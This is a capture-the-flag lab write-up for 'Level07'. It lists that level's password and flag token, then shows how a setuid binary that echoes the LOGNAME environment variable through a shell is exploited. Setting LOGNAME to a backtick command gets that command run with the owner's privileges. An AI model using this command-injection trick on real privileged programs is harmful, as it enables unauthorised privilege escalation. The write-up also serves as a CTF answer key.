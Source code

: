 # Level07 - Flag07

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level07 | `wiok45aaoguiboiki2tuin6ub` |
| flag07  |                             |
| token   | `fiumuikeil55xe9cu4dood66h` |

## Steps to resolve on VM

1. Connect to `level07` user and notice there is an executable owned by `flag07` user

```bash
su level07
# Enter the token

ls -l
> -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

2. Check the files

```bash
# By executing it, it prints us "level07"
./level07
> level07

# We check the content executed by this executable
strings level07
> [...]
> getenv
> [...]
> LOGNAME
> /bin/echo %s
> [...]
> /home/user/level07/level07.c
> [...]
# We can see that it's a C program that prints via 'echo'

# And we notice that 'getenv' have been used, probably with the env variable "LOGNAME"
cat $LOGNAME
> level07
export LOGNAME=test
./level07
> test
# Let's exploit that
```

3. Exploit LOGNAME env variable

```bash
export LOGNAME=\`getflag\`

./level07
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

---

## Sources

### SHELL

- [getenv](http://www0.cs.ucl.ac.uk/staff/W.Langdon/getenv/)
